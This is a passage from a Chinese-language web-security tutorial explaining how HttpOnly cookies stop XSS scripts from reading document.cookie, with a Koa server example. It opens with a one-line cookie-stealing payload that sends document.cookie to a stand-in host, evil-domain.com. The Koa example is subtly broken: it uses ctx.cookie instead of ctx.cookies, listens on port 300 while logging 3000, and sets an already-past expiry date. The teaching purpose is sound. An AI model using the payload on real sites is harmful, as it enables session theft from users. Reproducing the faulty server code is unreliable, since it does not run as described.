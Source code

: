 
### HTTPOnly Cookie

窃取网页 Cookie 的示例：

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

使用 HttpOnly Cookie 将重要的 Cookie 标记为 `http-only`，这样的话当浏览器向 Web 服务器发起请求的时就会带上 Cookie 字段，但是在 JavaScript 脚本中却不能访问这个 Cookie，这样就避免了 XSS 攻击利用 JavaScript 的 `document.cookie` 获取 Cookie。

在 Koa 中设置 Cookie `httpOnly` 属性：

```js
const Koa = require('koa');
const app = new Koa();

app.use(async (ctx) => {
  if (ctx.url === '/index') {
    ctx.cookie.set('cid', 'hello world', {
      // 写 Cookie 所在域名
      domain: 'localhost',
      // 写 Cookie 所在的路径
      path: '/index',
      // Cookie 有效时长
      maxAge: 10 * 60 * 1000,
      // Cookie 失效时间
      expires: new Date('2017-02-15'),
      // 是否只用于 HTTP 请求中获取
      httpOnly: true,
      // 是否允许重写
      overwrite: false,
    });

    ctx.body = 'Cookie is ok.';
  } else {
    ctx.body = 'Hello world!';
  }
});

app.listen(300, () => {
  console.log('[demo] Cookie is starting at port 3000');
});
```

在 Chrome 浏览器 Application 面板查看 Cookie 缓存可以直到哪些 Cookie 字段设置了 HttpOnly：

```jsx | inline
import React from 'react';
import img from '../../assets/web-security/xss-cookies-httponly.jpg';

export default () => <img alt="Cookies HttpOnly" src={img} width={720} />;
```

## 参考资料

